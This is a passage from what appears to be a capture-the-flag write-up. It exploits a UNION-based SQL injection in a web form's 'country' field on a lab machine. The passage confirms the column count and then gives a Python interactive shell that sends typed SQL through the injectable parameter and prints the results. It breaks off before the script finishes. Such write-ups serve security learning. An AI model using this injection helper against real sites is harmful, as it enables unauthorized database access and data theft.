 ![Apache account page country SQLi number of columns](apache-account-page-country-sqli-number-columns.png)

The last bullet point is followed by nothing, so it worked! There's indeed `1`
column in the table.

#### Script

It's a but cumbersome to enter the URL encoded payload on Burp Suite and then to
retrieve the response on a web browser though. Let's use a Python script to
automate that:

```py
import requests
from bs4 import BeautifulSoup
from cmd import Cmd


# Define a custom command-line interpreter class
class MyCmd(Cmd):
    # Set the prompt for the command-line interface
    prompt = "> "

    # Define the default behavior for handling input
    def default(self, line):
        # Define the target URL
        url = "http://10.10.11.116/"

        # Create a dictionary containing the payload for the SQL injection
        data = {"username": "foo", "country": "Brazil' UNION " + line + "; -- -"}

        # Send a POST request with the payload to the target URL
        response = requests.post(url, data=data)

        # Parse the HTML response using BeautifulSoup
        soup = BeautifulSoup(response.text, "html.parser")

        # Check if the response contains a <li> element
        if soup.li:
            # Print the text content of all <li> elements found in the response
            print("\n".join([x.text for x in soup.findAll("li")]))

    # Define behavior for an empty line (do nothing)
    def emptyline(self):
        pass
```